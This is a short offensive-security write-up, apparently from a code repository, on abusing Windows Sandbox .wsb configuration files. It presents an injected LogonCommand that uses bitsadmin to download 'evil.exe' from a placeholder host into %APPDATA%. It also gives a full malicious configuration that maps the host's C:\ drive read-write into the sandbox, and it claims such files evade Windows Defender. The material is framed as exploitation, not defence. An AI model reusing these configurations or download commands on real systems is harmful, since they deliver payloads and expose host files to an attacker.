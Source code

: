 
### I - How Windows Sandbox works


Windows Sandbox (WSB) will allow to create an isolated desktop environment, 
WSB configuration files are in XML format and use the .wsb extension.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



Here is an example of a configuration file: 




### Exploiting WSB configurations:


One of the first methods is to modify the `<Command>` field to execute our malicious command and access the host's system files, in addition to that WSB files are not detected by Windows Defender.

Possible command to inject:
```powershell
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```

Configuration compromises:
```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```

